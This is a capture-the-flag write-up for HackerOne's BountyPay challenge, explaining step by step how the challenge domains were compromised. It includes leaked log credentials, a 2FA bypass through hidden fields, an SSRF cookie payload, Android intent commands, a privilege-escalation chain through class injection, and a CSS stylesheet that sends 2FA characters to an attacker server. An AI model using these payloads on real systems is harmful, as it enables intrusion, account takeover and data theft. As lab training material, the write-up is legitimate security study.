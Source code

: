# BountyPay CTF Writeup
CTF homepage: https://hackerone.com/h1-ctf/

My writeup is also available on HackerOne: https://hackerone.com/reports/895780

# The Competition Begins!
The tweet announces the CTF challenge. Looks like we will need to find a way to process some payments.

<img src="images/intro-tweet.PNG" width="50%">

# Initial Exploring
Reading up on the extended description at https://hackerone.com/h1-ctf/ reveals that the target of this competition are the domains within `*.bountypay.h1ctf.com`. 

Scanning for available subdomains revealed:
- https://bountypay.h1ctf.com
- https://app.bountypay.h1ctf.com
- https://www.bountypay.h1ctf.com
- https://staff.bountypay.h1ctf.com
- https://api.bountypay.h1ctf.com
- https://software.bountypay.h1ctf.com

The description also mentioned that we should keep a look out on the HackerOne twitter for clues. I took a closer look through their feed.

![img](images/detective.jpg)

Right away, this particular retweet stood out:

<img src="images/retweet.PNG" width="50%">

Viewing their profile shows:

<img src="images/bp-profile.PNG" width="50%">

I wonder who they are following?

<img src="images/following.PNG" width="50%">

Sandra has a very interesting tweet!

<img src="images/first-day.PNG" width="50%">

Zoom, enhance! Her staff ID is clearly visible in this tweet. `STF:8FJ3KFISL3`. Thanks, Sandra, this should come in handy later. 

Scanning the barcode didn't seem to reveal anything. Best to move on for now and to look at the sites.

# Beginning the Journey
First things first, https://bountypay.h1ctf.com/.

![img](images/main-site.PNG)

The main site is pretty uneventful, just a splash screen with two external login pages, and some tumbleweeds.

The customer login is hosted on https://app.bountypay.h1ctf.com/, and the staff login is on https://staff.bountypay.h1ctf.com/.

The login pages were sanitized against SQL injection, and there was no way to create a new account. 

Well, maybe we need to explore some more.

![img](images/lets-go-exploring.jpg)

# Fuzz Faster U Fool
Time to do some directory bruteforcing to see if anything is available other than the login pages. I scanned for directories on the `app` domain.

```yaml
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
images                  [Status: 301, Size: 194, Words: 7, Lines: 8]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8] 
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1] 
.                       [Status: 301, Size: 194, Words: 7, Lines: 8]                  
.git                    [Status: 403, Size: 170, Words: 5, Lines: 7] 
cgit                    [Status: 403, Size: 170, Words: 5, Lines: 7]
```

That `.git` is very interesting. Trying to `GET` it returned a 403, but what about it's contents? 

I tried going to `/.git/config` in my browser, and it started downloading.

![img](images/squirtle.PNG)

# Finding a Way In

Let's see that git config up close:
```yaml
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
    logallrefupdates = true
[remote "origin"]
    url = https://github.com/bounty-pay-code/request-logger.git
    fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
    remote = origin
    merge = refs/heads/master
```

The GitHub account has one repository with one file in it, `logger.php`.

```php
<?php

$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);

file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```

Looks like they are logging their site activity to `bp_web_trace.log`. Let's grab that file off of `app`.

```
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```

Decoding the base64 entries shows:
```json
{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```

Great, we've got our username and password. Let's login to `app`.

# Trying the Door

<img src="images/brian-oliver.PNG" width="50%">

Should be smooth sailing. Only it looks like they have one more security step...

<img src="images/2fa.PNG" width="50%">

Trying the code from the log didn't work, these codes are generated new every time.

Here, I used one of my favourite Burp Suite features, `Prominently highlight hidden fields`.

<img src="images/2fa-prominent.PNG" width="50%">

That is prominent enough for me. Looks like the frontend sends the backend both the challenge and the challenge answer. I can just set both to whatever I want. 

The challenge looks like an MD5 hash. I made up my own challenge answer, generated the hash of it, and then sent both. 

<img src="images/2fa-answer.PNG" width="50%">

Login successful.

# Looking For Greener Grass

![img](images/dashboard.PNG)

Well. Turns out our friend Brian Oliver kind of sucks. Loading all the statements from all the months and years that the UI provides (and the additional months and years that the backend supports but the UI doesn't show) turns up nothing. 

Looking around a bit, I was curious if I could gather any information from the cookie. The cookie was set to:
`eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9`. 

Decoding the base64 string returns: `{"account_id":"F8gHiqSdpK","hash":"de235bffd23df6995ad4e0930baac1a2"}`.

I also noticed that every time I clicked to `Load Transactions`, it would fire off a request like:
`https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK/statements?month=01&year=2020`. 

It is interesting that the account id of my cookie also appears in this URL. From experimenting, I could see that editing the cookie to change the account id also changes the API request. We could potentially use an account id here that triggers a different endpoint.

## Investigating Possibilities of the API Domain
To exploit the api, we need to understand api. Going to `api.bountypay.h1ctf.com` shows:

<img src="images/api.PNG" width="50%">

The link is a cheeky redirect to google search what a rest api is. (https://api.bountypay.h1ctf.com/redirect?url=https://www.google.com/search?q=REST+API). Cheeky as it may be, this is an open redirect that we could make use of to perform a SSRF.

Exploring the endpoints from the browser (e.g. navigating to https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK), just returns `["Missing or invalid Token"]`. Looks like the main page with the redirect is all we have access to for now.

## Finding Our Target
The software domain looks like a likely target for a SSRF. It was rudely refusing access altogether due to our IP. 

![img](images/software.PNG)

## Performing the Attack
It is time to do some SSRF.

I set the cookie to the base64 encoded version of 
```json
{
    "account_id":"../../redirect?url=https://software.bountypay.h1ctf.com/&disregard=",
    "hash":"de235bffd23df6995ad4e0930baac1a2"
}
```

The `../` characters navigate us to the base api endpoint in order to use the `/redirect` path. 

I had to use the `&disregard=` at the end in order to make the browser **not** interpret the rest of the imposed url (`/statements?month=01&year=2020"`) to mean "use the `/statements` endpoint".

The final URL looks like: `https://api.bountypay.h1ctf.com/api/accounts/../../redirect?url=https://software.bountypay.h1ctf.com/&disregard=/statements?month=01&year=2020`

With this request we are able to connect to the `software` domain and see...another login page. At least this time we are able to access it instead of just being given a 401.

# These Are the Droids You Are Looking For
I scanned to see what directories are available on the `software` domain without being logged in.

```json
{
    "account_id": "../../redirect?url=https://software.bountypay.h1ctf.com/FUZZ&disregard=",
    "hash": "de235bffd23df6995ad4e0930baac1a2"
}
```

It turned up a folder, `uploads`. This page was a directory listing containing a file `BountyPay.apk`. Navigating my browser to https://software.bountypay.h1ctf.com/uploads/BountyPay.apk downloaded the application.

# Dreaming of Electric Sheep
![img](images/part-one-activity.PNG)

Loading the application lets us put in a username and twitter name, and then it displays a blank page. Well, okay. Perhaps if we decompile the source code we can find something interesting.

![img](images/pc.png)

The code is split into:

- `PartOneActivity.java`
- `PartTwoActivity.java`
- `PartThreeActivity.java`

## PartOneActivity
The blank screen we saw earlier was the first activity in the list. Looking at the source code, I found the trigger for starting the second activity:

```java
String firstParam = getIntent().getData().getQueryParameter("start");
if (firstParam != null && firstParam.equals("PartTwoActivity") && settings.contains(str)) {
    String str2 = "";
    String user = settings.getString(str, str2);
    Editor editor = settings.edit();
    String twitterhandle = settings.getString("TWITTERHANDLE", str2);
    editor.putString("PARTONE", "COMPLETE").apply();
    logFlagFound(user, twitterhandle);
    startActivity(new Intent(this, PartTwoActivity.class));
}
```

Intents are messages instructing that you want an action to be be performed. This includes launching activities (screens of the app).

From the code it looks like we can slide into part 2 if we just launch part one with the proper parameters (`PartTwoActivity` = `start`). We can launch customized intents with the debugger program, ADB:

```bash
generic_x86_arm:/ $ am start -n "bounty.pay/bounty.pay.PartOneActivity" -a android.intent.action.VIEW -d one://part?start=PartTwoActivity
Starting: Intent { act=android.intent.action.VIEW dat=one://part?start=PartTwoActivity cmp=bounty.pay/.PartOneActivity }
```

This immediately triggers part 2, which welcomes us with...another blank screen.

## PartTwoActivtiy
The first thing to stand out in the code was this snippet:

```java
Uri data = getIntent().getData();
String firstParam = data.getQueryParameter("two");
String secondParam = data.getQueryParameter("switch");
if (firstParam != null && firstParam.equals("light") && secondParam != null && secondParam.equals("on")) {
    editText.setVisibility(0);
    button.setVisibility(0);
    textview.setVisibility(0);
}
```

There are several components that become visible with the right intent parameters.

Launching with ADB:
```bash
generic_x86_arm:/ $ am start -n "bounty.pay/bounty.pay.PartTwoActivity" -a android.intent.action.VIEW -d two://part?two=light\&switch=on
```

The lights are on now!

![img](images/part2-revealed.png)

Inputting the string into the `Header value` box didn't do anything. 

The string looks like an MD5 hash. Decrypting it uncovers an original value of `Token`. Still, inputting `Token` would not move to the next section. Hmm, time to inspect more of the code.

The button click listener was performing this logic:

```java
String value = (String) dataSnapshot.getValue();
SharedPreferences settings = PartTwoActivity.this.getSharedPreferences(PartTwoActivity.KEY_USERNAME, 0);
Editor editor = settings.edit();
String str = post;
StringBuilder sb = new StringBuilder();
sb.append("X-");
sb.append(value);
if (str.equals(sb.toString())) {
    String str2 = "";
    PartTwoActivity.this.logFlagFound(settings.getString("USERNAME", str2), settings.getString("TWITTERHANDLE", str2));
    editor.putString("PARTTWO", "COMPLETE").apply();
    PartTwoActivity.this.correctHeader();
    return;
}
Toast.makeText(PartTwoActivity.this, "Try again! :D", 0).show();
```

Well, looks like we need to have a `X-` prefix to the value that goes in. Inputting `X-Token` gets us through to part 3.

## PartThreeActivity
Blank screens don't phase me anymore, let's dive into the code.

```java
Uri data = getIntent().getData();
String firstParam = data.getQueryParameter("three");
String secondParam = data.getQueryParameter("switch");
String thirdParam = data.getQueryParameter("header");
byte[] decodeFirstParam = Base64.decode(firstParam, 0);
byte[] decodeSecondParam = Base64.decode(secondParam, 0);
final String decodedFirstParam = new String(decodeFirstParam, StandardCharsets.UTF_8);
final String decodedSecondParam = new String(decodeSecondParam, StandardCharsets.UTF_8);
```

Ok, three parameters. We need to send in the first two base64 encoded this time.

```java
String value = (String) dataSnapshot.getValue();
if (str != null && decodedFirstParam.equals("PartThreeActivity") && str2 != null && decodedSecondParam.equals("on")) {
    String str = secondParam2;
    if (str != null) {
        StringBuilder sb = new StringBuilder();
        sb.append("X-");
        sb.append(value);
        if (str.equals(sb.toString())) {
            editText2.setVisibility(0);
            button2.setVisibility(0);
            PartThreeActivity.this.thread.start();
        }
    }
}
```

And sending in the correct parameters will once again make some items visible. It also starts a thread, but we can come back to that.

Remembering to base64 the first two parameter values (`PartThreeActivity`, `on`), we can turn on the lights for the second time today:

```bash
am start -n "bounty.pay/bounty.pay.PartThreeActivity" -a android.intent.action.VIEW -d three://part?three=UGFydFRocmVlQWN0aXZpdHk\=\&switch=b24\=\&header=X-Token
```

![img](images/part-three-activity.PNG)

One more input box that we need to fill with the correct value. Let's take a closer look now at what that thread was that we started:

```java
this.thread = new Thread(new Runnable() {
public void run() {
    PartThreeActivity.this.performPostCall(PartThreeActivity.this.getSharedPreferences(PartThreeActivity.KEY_USERNAME, 0).getString("TOKEN", ""));
}
});
```

It performs a POST call when we use the right arguments. Let's see if we can intercept this to find the answer to this section.

I managed to find a particular message sent from the app that caught my attention!

```json
{
    "t": "d",
    "d": {
        "b": {
            "p": "X-Token",
            "d": "8e9998ee3137ca9ade8f372739f062c1"
        },
        "a": "d"
    }
}
```

The X-Token makes an appearance! Submitting it gets us clear to the end of the stage.

![img](images/congrats-activity.png)

We should be able to use this X-Token to authenticate with the BountyPay API.

# Rummaging Through API
I tried again to load the accounts endpoint from before, but this time sending the X-Token as a header.

https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK

This time I got back:
```json
{
    "account_id": "F8gHiqSdpK",
    "owner": "Mr Brian Oliver",
    "company": "BountyPay Demo "
}
```

We're in! Once again, time to scan to see what endpoints are available other than `accounts`.

Some directory bruteforcing came up with this endpoint: https://api.bountypay.h1ctf.com/api/staff/

Doing a GET request got back:
```json
[
    {
        "name": "Sam Jenkins",
        "staff_id": "STF:84DJKEIP38"
    },
    {
        "name": "Brian Oliver",
        "staff_id": "STF:KE624RQ2T9"
    }
]
```

We know about Brian, and his lack of access to useful statements. Sam Jenkins is a newcomer, but we don't have a way to access his login information. 

I tried to send a POST request to create a staff account for myself. The api helpfully let me know that I needed to provide a `staff_id`, and `name`. Still, no matter what I put, the api would say the `staff_id` was invalid.

Looking at the two staff members again, I noticed that our social media guru, Sandra, was not there. I suppose she hasn't started work yet, and they haven't set up her account. Maybe we can push her start date up a bit and make her account for her.

![img](images/staff.png)

Welcome to the team, Sandra!

# Masquerading As Sandra
![img](images/hacker.png)

Using my newfound identity, I went over to https://staff.bountypay.h1ctf.com.

![img](images/staff-dashboard.PNG)

After looking around a bit, I realized that even though Sandra is a staff member, she is not an admin, and some site content remained hidden. Maybe we can find a way to boost the account into being one.

The site has a report feature where you can tell the admins about an issue with a page. 

![img](images/report.PNG)

Clicking the button sends a base64 encoded string of the URL of the current page you are on. The wording that the admins will look at the page makes me think that we can design a malicious page that promotes us to admin when viewed by an admin.

There was a file, `website.js` that piqued my interest. Looking at it, function by function:
```javascript
$('.upgradeToAdmin').click(function () {
	let t = $('input[name="username"]').val();
	$.get('/admin/upgrade?username=' + t, function () {
		alert('User Upgraded to Admin');
	});
}), 
```
Well, this is interesting! Looks like there is a button to upgrade users to administrators. This button doesn't appear anywhere on my UI, looks as though you have to be an admin to see it. This does reveal though what endpoint you have to hit to get the functionality. 

Trying `/admin/upgrade?username=sandra.allison` manually just returned an error saying I didn't have permission to do this. Reporting this URL didn't change anything. (The prompt did say any reports in the `/admin` directory would be ignored.) They even were filtering out obfuscating the path by doing things like `/pls-let-me-in/../admin/upgrade?username=sandra.allison`. Let's look at what else is in `website.js` for now.

```javascript
$('.tab').click(function () {
	return $('.tab').removeClass('active'), $(this).addClass('active'), $('div.content').addClass('hidden'), $('div.content-' + $(this).attr('data-target')).removeClass('hidden'), !1;
}), 
```
This powers the tab buttons on the site. When you click a tab it will hide the current site content and unhide the content related to the current tab. Not too interesting.

```javascript
$('.sendReport').click(function () {
	$.get('/admin/report?url=' + url, function () {
		alert('Report sent to admin team');
	}), $('#myModal').modal('hide');
}), 
```
We see the logic for the report sending here. It shows the URL for reporting urls here. We can just call `/admin/report?url=` directly now.

```javascript
document.location.hash.length > 0 && 
    (
        '#tab1' === document.location.hash && $('.tab1').trigger('click'), 
        '#tab2' === document.location.hash && $('.tab2').trigger('click'), 
        '#tab3' === document.location.hash && $('.tab3').trigger('click'), 
        '#tab4' === document.location.hash && $('.tab4').trigger('click')
    );
```
This is the handling for anchor hashes. For example if I go to https://staff.bountypay.h1ctf.com#tab2, it will automatically click the second tab for me. This might come in handy later.

I noticed also that the code talks about a tab4, but our UI does not have a 4th tab. Trying to go to it doesn't work. I'm assuming that there is one more tab that only the admins have access to.

## Profile Shenanigans
The first thing to really stand out was the profile updater tool. 

![img](images/profile.PNG)

I tried updating my username to different values to try and check for XSS. No luck, both inputs are being sanitized, and symbols are not allowed.

By intercepting the request, I was able to see the the radio buttons allowed me to change the avatar between the values: `avatar`, `avatar1`, `avatar2`, `avatar3`.

The avatar value gets inserted into a div like this:
```html
<div style="margin:auto" class="avatar1"></div>
```

And then the CSS adds the image to the div (urls removed by me to save space):
```css
.avatar {
    width:64px;
    height:64px;
}
.avatar1 {
    background-image:url("");
}
.avatar2 {
    background-image:url("");
}
.avatar3 {
    background-image:url("");
}
```

We are limited to only using regular letters and number characters as our input. That should be enough to do some damage though, as we are able to write class names right into the page, and we know `website.js` will run functionality on elements with certain class names.

The most obvious contender for classname is `upgradeToAdmin`. To refresh our memory, here is the function from `website.js` again below:
```javascript
$('.upgradeToAdmin').click(function () {
	let t = $('input[name="username"]').val();
	$.get('/admin/upgrade?username=' + t, function () {
		alert('User Upgraded to Admin');
	});
}), 
```

With the class set, the page renders with a div looking like this:
```html
<div style="margin:auto" class="upgradeToAdmin"></div>
```

And now, when I click on our avatar, I can see a request being made to `https://staff.bountypay.h1ctf.com/admin/upgrade?username=undefined`. We'll need to come back to the username being undefined, but this is a promising start!

Having the admin need to click the avatar to run the exploit is not good enough though. We will want it to happen automatically as soon as the page is opened.

There is some other functionality related to clicking, which I will paste again below:
```javascript
document.location.hash.length > 0 && 
    (
        '#tab1' === document.location.hash && $('.tab1').trigger('click'), 
        '#tab2' === document.location.hash && $('.tab2').trigger('click'), 
        '#tab3' === document.location.hash && $('.tab3').trigger('click'), 
        '#tab4' === document.location.hash && $('.tab4').trigger('click')
    );
```

Ok. If we give our image a specific tab class, and then go to a url with an anchor hash of the same value, we can get our avatar to be auto clicked.

One more profile update, and we have:

```html
<div style="margin:auto" class="upgradeToAdmin tab3"></div>
```

Now, when we navigate to https://staff.bountypay.h1ctf.com?template=home#tab3, we are brought directly to the profile tab, and we instantly have a request made in the background to `https://staff.bountypay.h1ctf.com/admin/upgrade?username=undefined`.

Now we are cooking.

## Getting the Username
One thing is still outstanding though. We need to make sure our page sends our username, `sandra.allison`. The code in the `upgradeToAdmin` function is sending the value of `input[name="username"]` as the username. None of the tabs have an input box with that name. 

There is, however, an input box with that name on the login page. If we could render the login template at the same time as the profile template (containing our avatar), we could have the request send properly.

The typical URL looks like `?template=VALUE` where value is one of `login`, `home`, `ticket`, or `admin` (and we don't have access to admin). We can send in an array of templates by forming our URL like `?template[]=home&template[]=login`.

Putting everything together, we get: https://staff.bountypay.h1ctf.com/?template[]=login&username=sandra.allison&template[]=ticket&ticket_id=3582#tab3

We need the login template to have access to the username field, the ticket template to have access to our avatar (from the admin's point of view), and the tab in order to trigger our click.

I directly reported this URL to `/admin/report?url=`, base64 encoded. Now, when refreshing the page, we can see our unlimited administrator powers!

# Unlimited Administrator Powers
![img](images/admin-tab.png)

Marten Mickos, the account we need to access to pay the bounties! Let's log into the app domain and see if we can find some statements.

Logging in gives us another 2 factor challenge.

<img src="images/2fa.PNG" width="50%">

Pff, easy, just look at the hidden fields, make my own challenge and answer, we've done this before.

Once more, we are greeted with the dashboard of no statements. I iterated through all possible year / month combinations until 05-2020 revealed some transactions. 

![img](images/pay-bounty.png)

Clicking to pay brings up another 2 factor challenge.

<img src="images/2fa-css.PNG" width="50%">

It is weird that we are able to send a css stylesheet to the 2 factor app. Let's go next and see what happens.

<img src="images/2fa-2.PNG" width="50%">

Our usual party trick of manually setting the challenge and answer doesn't work this time! Looks like this works completely differently. It is also interesting that we have a timeout now, and have to complete the challenge within 2 minutes.

# Attacking With a Stylesheet
After some looking around, it seems like our only weapon for this final battle is a CSS stylesheet. The default stylesheet didn't contain any useful information.

I did some Google searching to see what kind of stylish attacks could be pulled off with nothing but CSS. This reference was a big help: https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense.

The gist of it is, you can determine what content is on a page by applying a style to it, and sending a network request as part of the style. We can assume that the 2 factor code is displayed in an `input` type element for easy selecting by the user.

As a little test, we could create an HTML file:
```html
<input value="secret">
```

and a CSS file:
```css
input[value="^s"] { background-image: url("<my-server>/s"); }
```

This style applies to all input elements that have a value beginning with `s`. When we open the HTML file, the server will receive a request for `s`. It won't know what to do with that request, but that doesn't matter. We received a piece of information that the input begins with `s`. The blog post goes into a lot of detail into how to create a css file that can go through all the permutations needed to work out the full input. Let's move on for now, back to the challenge at hand.

I generated a stylesheet looking like this to find out what the 2 factor code started with:
```css
input[value^="1"] { background-image: url("<my-server>/1"); }
input[value^="2"] { background-image: url("<my-server>/2"); }
input[value^="3"] { background-image: url("<my-server>/3"); }
...
input[value^="A"] { background-image: url("<my-server>/A"); }
input[value^="B"] { background-image: url("<my-server>/B"); }
input[value^="C"] { background-image: url("<my-server>/C"); }
...
input[value^="d"] { background-image: url("<my-server>/d"); }
input[value^="e"] { background-image: url("<my-server>/e"); }
input[value^="f"] { background-image: url("<my-server>/f"); }
...
input[value^="!"] { background-image: url("<my-server>/!"); }
input[value^="@"] { background-image: url("<my-server>/@"); }
input[value^="#"] { background-image: url("<my-server>/#"); }
...
```

After submitting my stylesheet, I got some pings on my server!

![img](images/server-css.PNG)

7 different responses. Note that if multiple styles apply to an object, only the last one gets used. That means that if I got 7 responses, there are 7 different input boxes on the page.

I wrote a quick python script to generate all the permutations of those 7 characters:
```python
from itertools import permutations

file = open('payloads.txt', 'a')
alphabet = 'QKDCux5'
for perm in permutations(alphabet, len(alphabet)):
    file.write(f'{"".join(perm)}\n')
file.close()
```

We have our wordlist now, next thing to do is to hammer the server with these thousands of requests before the time limit is up! 

![img](images/flag.PNG)

And that's a wrap!

![img](images/sleep.png)